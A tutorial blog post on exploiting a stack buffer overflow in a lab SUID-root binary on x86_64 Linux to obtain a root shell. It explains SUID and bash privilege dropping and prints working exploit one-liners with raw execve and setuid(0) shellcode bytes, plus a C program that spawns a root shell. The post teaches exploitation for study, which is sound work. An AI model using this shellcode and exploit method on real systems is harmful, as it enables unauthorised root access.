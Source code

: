 ```yaml
---
layout: post
title: "Buffer overflow - getting a root shell"
date: 2020-01-02
tags: [security, linux, programming, vulnerabilities]
---
```


The vulnerable program from the previous article spawned a shell when we exploited it, but the shell did not get us any special permissions. That's to be expected, as the vulnerable program ran with normal user privileges.

There are multiple ways to go from normal user privilege to super user privilege, and we'll look more at this later, but for now we'll focus on SUID binaries.

### SUID binaries

When root is the owner of a file, and the SUID/setuid bit is set, the program runs (when executed by a normal user) with the highest privlege.

To turn `bo_vuln1` into a SUID root binary, we set root as the owner, and set the SUID bit:

```bash
$ sudo chown root bo_vuln1
$ sudo chmod u+s  bo_vuln1
$ ls -l bo_vuln1
-rwsrwxr-x. 1 root user 19552 Jul 22 17:19 bo_vuln1
```

When we execute the above program, we run it with using our *real* user ID (the user we are logged in as), but the program runs with root as its *effective* user ID.

> The SUID bit makes a program run with the *owner's* privileges. It is displayed as "s" in the file permissions (e.g. `ls -l` output).

### Prevent privilege drop in bash

Running the same exploit as earlier, on the now SUID root `bo_vuln1`, we still get a shell with no special privileges:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4$
```

This happens because bash (and most other modern shells) will set the effective user ID to the real user ID unless we use the `-p`  option, i.e. the root privilege is *dropped*.

> The `-p` option in bash is the same as `-o privileged`.

We can see that this is true by calling `execve` to launch a shell (which is the method used by our shellcode) in a small suid root program:

```c
/*
 * rootsh.c
 * gcc rootsh.c -o rootsh -std=c99
 */

#include <unistd.h>

int main()
{
    execve("/bin/sh", (char *[]){"/bin/sh", "-p", NULL}, NULL);
}
```

After compiling, set root as owner, and set the setuid bit:

```
$ sudo chown root rootsh
[sudo] password for <user>:
$ sudo chmod u+s rootsh
$ ls -l rootsh
-rwsrwxr-x. 1 root user 18288 Aug  8 21:12 rootsh
```

When the program is executed by a normal user, it spawns a root shell:

```
$ ./rootsh
sh-4.4# whoami
root
sh-4.4#
```

> Delete the file or remove the setuid bit by using `chmod -s <FILE>`. Don't leave vulnerable programs with a SUID bit, it's probably smart the create a "superuser" or similar *normal* user to use as the owner of a SUID file for educational purposes.

On 32-bit systems "/bin/sh -p" shellcode is easy to create since arguments to functions are passed on the stack, but on 64-bit it's difficult since registers are used to pass arguments (the string with the "-p" option is too long for a register).

> We'll look more at the challenges of writing shellcode in a later chapter.

An alternative to using the `-p` option is to use a shellcode which first runs `setuid()` to set the user identity to uid 0 (root), then execute a shell. Let's grab a shellcode from shell-storm.org.

> I've chosen the 48 byte Linux x86_64 `setuid(0) + execve(/bin/sh)` by xi4oyu, available at http://shell-storm.org/shellcode/files/shellcode-77.php. The author did not zero out `rax` before moving the system call number for `execve` into the lower 8 bits of the register, so the call to `setuid` could fail. I've prefixed three bytes in the shellcode below that zeroes out `rax`, making the shellcode 51 bytes.

The bytes of the (fixed) shellcode are as follows:

```
\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

`bo_vuln1` is still set with root as owner and with the SUID bit. Let's run the shellcode (note that the NOP sled is decreased since the shellcode is longer):

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 12 * "\x90" + "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4# echo $EUID
0
sh-4.4# whoami
root
sh-4.4#
```

> Filesystems mounted with the `nosuid` mount option in (see the file `/proc/mounts`) will ignore the SUID or SGID bit, making this type of privilege escalation impossible.


